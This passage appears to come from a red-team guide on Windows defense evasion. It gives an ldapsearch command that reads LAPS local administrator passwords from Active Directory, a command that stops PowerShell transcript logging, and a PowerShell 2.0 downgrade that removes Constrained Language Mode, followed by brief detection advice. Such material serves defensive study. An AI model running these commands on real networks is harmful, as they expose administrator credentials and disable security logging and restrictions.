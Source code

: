 For more information about that technique refer to [T1036 - Masquerading](https://attack.mitre.org/techniques/T1036/)

##### LAPS Evasion

In some organizations, there are *Organization Unit* where administrators or members of the helpdesks have full control access of a computer.
This means that they we have one of those accounts, we can query the Domain Controller for such passwords as LAPS stores it’s information in Active Directory:

- The expiration time: ms-Mcs-AdmPwdExpirationTime
- And the actual password in clear text: ms-Mcs-AdmPwd

```bash
ldapsearch -x -h 192.168.80.10 -D "USERNAME" -w PASSWORD -b "dc=BASELDAP,dc=info" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

##### Powershell Transcript

The Start-Transcript and Stop-transcript cmdlets let you record all of your activities in the PowerShell console to a text file.

```bash
Stop-Transcript # Stop recording
```

##### Powershell Restriction

##### PowerShell Constrained Language Mode

Constrained language mode limits the capability of PowerShell to base functionality removing advanced feature support such as .Net & Windows API calls and COM access. 

```powershell
$ExecutionContext.SessionState.LanguageMode
FullLanguage
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
$ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```

PowerShell Constrained Language mode was designed to work with system-wide application control solutions such as Device Guard User Mode Code Integrity (UMCI).

If we have the ability to downgrade to Powershell 2.0, this can allow you to bypass the *ConstrainedLanguagemode*

```powershell
powershell -version 2
# Check Language Mode
$ExecutionContext.SessionState.LanguageMode
# Remove Constrained Language Mode
Remove-Item Env:\__PSLockdownPolicy
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure that you have an endpoint protection system that integrate with Powershell security mechanisms such as AMSI or Constrained Language Mode
For instance, The Application Whitelisting tools from Windows can be integrated with Constrained Language Mode so that before a powershell script is run, the script host invokes AppLocker to verify the script (cc [here](https://p0w3rsh3ll.wordpress.com/2019/03/07/applocker-and-powershell-how-do-they-tightly-work-together/))
- *Active Defense*: Monitor for PowerShell downgrade.
